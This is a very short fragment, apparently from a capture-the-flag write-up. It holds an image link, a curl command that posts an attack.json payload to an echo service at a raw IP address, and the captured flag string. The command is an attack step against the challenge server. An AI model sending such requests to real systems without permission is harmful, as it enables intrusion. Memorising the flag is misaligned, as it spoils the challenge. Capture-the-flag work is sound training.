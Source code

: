 curl -H"content-type: application/json" -d@attack.json http://35.211.53.53:8000/echo

SNYK{6a6a6fff87f3cfdca056a077804838d4e87f25f6a11e09627062c06f142b10dd}